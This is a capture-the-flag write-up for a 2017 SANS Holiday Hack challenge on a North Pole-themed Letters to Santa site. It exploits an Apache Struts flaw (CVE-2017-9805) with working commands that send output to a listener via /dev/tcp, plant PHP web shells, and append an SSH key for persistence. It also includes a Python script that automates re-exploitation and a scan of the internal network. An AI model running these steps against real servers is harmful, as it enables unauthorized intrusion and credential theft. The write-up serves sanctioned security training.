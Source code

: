 * Question
   :PROPERTIES:
   :CUSTOM_ID: q2_question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

/For hints associated with this challenge, Sparkle Redberry in the Winconceivable: The Cliffs of Winsanity Level can provide some tips./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q2_background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  
  Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q2_goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q2_approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC
$ nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

In addition to the hidden link for dev.northpolechristmastown.com, it is also
present as an alternate name on the certificate of the host. Let's let nmap's
scripts scan that as well.

#+BEGIN_SRC
$ nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one in the same. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

Let's check out the help:

#+BEGIN_SRC
$ ./cve-2017-9805.py
usage: cve-2017-9805.py [-h] [-u URL] -c COMMAND

optional arguments:
  -h, --help  show this help message and exit
  -u URL      url of target vulnerable apache struts server. Ex-
              http://somevulnstrutsserver.com/orders.xhtml
  -c COMMAND  command to execute against the target. Ex - /usr/bin/whoami
#+END_SRC

The example URL is =http://somevulnstrutsserver.com/orders.xhtml=. How fortituous!

#+BEGIN_SRC
$ python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC python
print request.text
#+END_SRC

Performing the same simple command above results in a lengthy Apache Tomcat
error with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the output
of the command. One trick we can pull is redirecting output to a special
pseudo device, ~/dev/tcp/$host/$port~. First we'll need to set up a listener
on our end first:

#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/8888"
#+END_SRC

The result on our end is:
#+BEGIN_SRC
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/www/html=.

#+BEGIN_SRC
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question.

Let's assume for a minute that we didn't know where the web root
was. Since page 1 of our Great Book was a PDF, it's a pretty safe bet
that page 2 is also a PDF. It takes about half of a second to search the system for all PDFs using =find=:

#+BEGIN_SRC
$ find / -name *.pdf
/var/www/html/GreatBookPage2.pdf
#+END_SRC

*** Command Execution

 It looks like we found our web root. Let's try out the
 web shell they suggest in the hints from Josh Wright
 [[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
 We'll output it to a random file in the web root then
 we can try to use it to execute commands using a browser.

 #+BEGIN_SRC
 ./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php
    https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php"
    -u https://dev.northpolechristmastown.com/orders.xhtml
 #+END_SRC

 Now we can access
 [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]]
 and look around. If we do an =ls= in this webshell, it just returns
 the local directory, =/var/www/html=. Nothing in here suggests that we
 have the webroot for the dev server,
 [[https://dev.northpolechristmastown.com]].

 Let's run =find= to see if we can find the password in our webshell.

 #+BEGIN_SRC sh
 find / -xdev -type f -user alabaster_snowball 2>/dev/null | xargs grep password
 #+END_SRC

 Within the page full of results we see this:

 #+BEGIN_SRC
 /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String password = "stream_unhappy_buy_loss";
 #+END_SRC

 A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

 #+BEGIN_SRC java
 final String username = "alabaster_snowball";
 final String password = "stream_unhappy_buy_loss";
 #+END_SRC

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q2_solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

Leveraging the Apache Struts vulnerability, we can run =ls= on the
common web root of =/var/www/html=, and get the filename of the page,
then download it via the web server. Opening it up, we see that the
topic is:

#+BEGIN_QUOTE
On the Topic of Flying Animals
#+END_QUOTE

*** What is Alabaster Snowball’s password?

The trick here is just finding the right file, and the password is in
cleartext in that file. We used =find= to =grep= all the files for
"password".

#+BEGIN_QUOTE
=stream_unhappy_buy_loss=
#+END_QUOTE

* Alternatives
   :PROPERTIES:
   :CUSTOM_ID: q2_alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually
add an ssh key to alabaster's authorized keys file. This is
problematic since you need to know that the username is actually
=alabaster_snowball= first. Assuming you do, you can run the following
command to add your key to the file.

The command we want to run is the following, taking care not to clobber any existing authorized keys:

#+BEGIN_SRC sh
cd /home/alabaster_snowball
# Make the .ssh directory, if it doesn't exist
mkdir .ssh
# ssh is very picky about permissions, so lock this down:
chmod 700 .ssh
cd .ssh

# Create the authorized_keys file, if it doesn't exist
touch authorized_keys
# ...and lock it down
chmod 600 authorized_keys

# Append our key
echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | 
  tee -a /home/alabaster_snowball/.ssh/authorized_keys
#+END_SRC

For running this via the Struts exploit, we want this all as a
one-liner. Let's break this up into two parts: first, we'll create the
necessary directory and file, and ensure the permissions are correct,
then we'll add our key:

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'cd /home/alabaster_snowball; mkdir .ssh; chmod 700 .ssh; cd .ssh; touch authorized_keys; chmod 600 authorized_keys'
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 
  'echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys'
#+END_SRC

Then you can ssh using your private key identity file.

#+BEGIN_SRC
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to grep for
alabaster's password but a regular grep against the entire system will
take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query
it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in
the same directory we can create a script to automate exploitation and
give us a prompt to execute commands.

#+BEGIN_SRC python
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | 
##    base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to
=cve_2017_9805.py= or create a symlink so it can be properly imported
into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$ ./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

Ripgrep is a super fast grep replacement written in rust. It does a
better job at filtering binary files, so we can run this command that
finishes in about a second.

The following steps create a folder for ripgrep and executes the
search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | 
  tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | 
  xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class- final String password = "stream_unhappy_buy_loss";
#+END_SRC

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q2_common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit. There were a couple of ways around this:

  * Using the ~/dev/tcp~ trick like we did,
  * Redirect the output to =/var/www/html/$filename=, and then accessing that via the web interface,
  * Piping the output to =netcat=.

Finding the password was also tricky. Luckily, there weren't many
files on this system, so we could just =grep= everything, but another
option would've been to look for files that had been modified around
the time the system was installed.

Trying to compromise the l2s app itself was a dead end.  Once we have command
execution we can see that the process.php script is simply:

#+BEGIN_SRC php
<?php
if ($_POST["first_name"] && $_POST["age"] && $_POST["state"] && $_POST["city"] && $_POST["toy"] && $_POST["message"] && $_POST["sex"]) {
	echo "Letter has been sent to Santa!";
} else {
	echo "Error missing parameters";
}
?>
#+END_SRC

* About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: q2_about-the-challenge
   :END:

Initially the host has a couple of noticeable holes.

  * Apache server running as alabaster (eventually changed to www-data user)
  * Easy bypass of rbash by adding the '-t' flag and executing bash on ssh login (eventually rbash was forced through sshd_config)

The server itself housed two virtual web hosts, the Letter's to Santa application which ran PHP in nginx and the Development site which was run by Apache struts on a high port being redirected by nginx.

* Moving Foward

Now that we have a script to automate access to l2s let's run nmap to scan the internal network.

#+BEGIN_SRC
holiday@hack:~$ ./l2s.py "nmap -sC 10.142.0.*"

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 20:51 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00018s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http
|_http-title: Toys List

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 a2:c4:67:fe:a2:d9:df:47:02:55:35:1a:f4:1b:b6:02 (RSA)
|_  256 9e:d4:01:d1:71:be:95:90:68:6e:ee:87:28:42:49:8e (ECDSA)
25/tcp   open  smtp
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap
|_imap-capabilities: more AUTH=PLAIN capabilities have OK Pre-login AUTH=LOGINA0001 ENABLE listed SASL-IR IDLE post-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey:
|   2048 73:de:22:15:7b:53:13:85:a7:a5:8f:10:3a:5d:3b:3f (RSA)
|_  256 f5:d7:f3:5d:dc:7c:73:10:cc:f7:a4:c7:f0:d9:61:0c (ECDSA)
80/tcp   open     http
| http-robots.txt: 1 disallowed entry
|_/dev
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  filtered ldap
8080/tcp open     http-proxy
| http-robots.txt: 1 disallowed entry
|_/dev
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00021s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-smb-server
| Not valid before: 2017-11-06T13:46:55
|_Not valid after:  2018-05-08T13:46:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Host script results:
|_nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Toys List
4444/tcp open  krb524

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00078s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Not valid before: 2017-11-23T20:53:55
|_Not valid after:  2018-05-25T20:53:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Post-scan script results:
| clock-skew:
|   0s:
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Nmap done: 256 IP addresses (7 hosts up) scanned in 14.86 seconds
#+END_SRC
